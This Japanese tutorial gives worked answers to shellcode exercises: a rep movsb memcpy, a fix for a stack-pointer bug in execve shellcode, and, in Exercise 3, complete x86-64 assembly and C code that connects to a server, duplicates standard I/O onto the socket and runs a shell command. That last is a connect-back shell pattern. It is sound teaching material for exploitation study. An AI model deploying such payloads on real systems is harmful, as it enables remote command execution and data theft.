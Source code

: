 ```yaml
---
title: 例題の解答 - シェルコードの書き方
date: 2022-02-06 14:04:00
lang: ja
---
```


## 例題１
【問題】
`rep movsb`命令を使ってmemcpy相当のシェルコードを書いてください。

【解答】
`rep`プレフィックスは後続の命令をrcxが0になるまでrcxをデクリメントしながら実行します。今回は`movsb`(1バイトずつコピー)なので、コピーするデータの長さをそのままrcxに入れましょう。
次に`movs`命令はrsiが指す先のデータをrdiが指す先にコピーします。命令が実行されるとrsi,rdiの値が更新されますが、デクリメントされるかインクリメントされるかはディレクションフラグに依存します。インクリメントさせたい場合はディレクションフラグを0にするため`cld`命令を呼びます。デクリメントさせたい場合は`std`命令を呼びます。今回は`movs`命令が呼ばれる度にポインタをインクリメントしたいので、`cld`を使います。
```
; memcpy(rdi, rsi, rdx);
cld
mov rcx, rdx
rep movsb
```

## 例題２
【問題】
シェルコード領域は書き込み可能だがRSPの初期値が0から始まる状況で、次のようなシェルコードを書いたところ、Segmentation Faultを起こしてしまいました。
```
; $ nasm test.S -fELF64
; $ ld test.o --omagic
; $ ./a.out
global _start
section .text
_start:
  xor esp, esp    ; 初期状態RSP=0
  lea rsp, [rel stack]
  xor edx, edx
  push rdx
  lea rdi, [rel s_arg2]
  push rdi
  lea rdi, [rel s_arg1]
  push rdi
  lea rdi, [rel s_arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall
  int3
stack: times 1024 dq 0
s_arg0: db "/bin/sh", 0
s_arg1: db "-c", 0
s_arg2: db "/bin/ls -lha", 0
```
原因を特定して直してください。

【解答】
このシェルコードではスタックを利用するためにスタックポインタをシェルコード領域に設定しています。
```
lea rsp, [rel stack]
```
スタックは低位アドレスに向かって利用されますが、ラベル`stack`は用意されたスタック領域の先頭を指しています。したがって、以降`push`命令が呼ばれると機械語領域を破壊してしまいます。
5行目を次のように変更すればスタックポインタの位置は正しくなります。
```
lea rsp, [rel stack + 1024]
```
なお、ユーザーランドの場合はこれで問題ないですが、もしカーネル空間でこのような処理をする場合、アラインメントに注意する必要があります。カーネルではスタックポインタが8の倍数でないと例外を引き起こしてしまうため、次のように`align`を利用しましょう。
```
align 8
stack: times 1024 dq 0
```
ファイルの全体は[ここ](src/bug-fixed.S)からダウンロードできます。

## 例題３
【問題】
「ls -lha」した結果を自分のサーバー（例：127.0.0.1:8080）に送信するシェルコードを書いてください。ただし、"/dev/tcp"などのスペシャルデバイスファイルは使わないこと。（ヒント：標準入出力をsocketのfdにdupするとpipeを作らなくてもexecveするだけで結果が転送される。） 

【解答】
特殊な構造体が出てくるような複雑なシェルコードを書くのが難しい時はC言語で書いてコンパイルしたものを参考にしましょう。今回のコードは次のようになります。
```c
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main() {
  struct sockaddr_in sa;
  int sock;

  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr("127.0.0.1");
  sa.sin_port = htons(8080);
  sock = socket(AF_INET, SOCK_STREAM, 0);
  connect(sock, (struct sockaddr*)&sa, sizeof(sa));
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);

  char *args[] = {"/bin/sh", "-c", "/bin/ls -lha", 0};
  execve(args[0], args, NULL);
  return 0;
}
```
`inet_addr`等の変換結果はgdbで確認すれば分かります。（といっても`inet_addr`はIPアドレスを4バイトの値に変換し、`htons`はポート番号のエンディアンを変換するだけです。）
解答例は以下のようになります。
```
global _start
section .text

_start:
  ; socket(AF_INET, SOCK_STREAM, 0)
  xor edx, edx
  mov esi, 1
  mov edi, 2
  mov eax, 41
  syscall
  mov r15d, eax
  ; connect(sock, &sa, sizeof(sa))
  mov edx, 0x10
  lea rsi, [rel sa]
  mov edi, r15d
  mov eax, 42
  syscall
  ; dup2(sock, 0)
  xor esi, esi
  mov edi, r15d
  mov eax, 33
  syscall
  ; dup2(sock, 1)
  mov esi, 1
  mov edi, r15d
  mov eax, 33
  syscall
  ; dup2(sock, 2)
  mov esi, 2
  mov edi, r15d
  mov eax, 33
  syscall
  ; execve(args[0], args, NULL)
  xor edx, edx
  push rdx
  lea rdi, [rel s_arg2]
  push rdi
  lea rdi, [rel s_arg1]
  push rdi
  lea rdi, [rel s_arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall
  int3

s_arg0:
  db "/bin/sh", 0
s_arg1:
  db "-c", 0
s_arg2:
  db "/bin/ls -lha", 0

sa:
  dw 2                          ; sin_family=AF_INET
  dw 0x901f                     ; sin_port=8080
  dd 0x0100007f                 ; sin_addr.s_addr=<127.0.0.1>
  dq 0
```
ファイルの全体は[ここ](src/revls.S)からダウンロードできます。
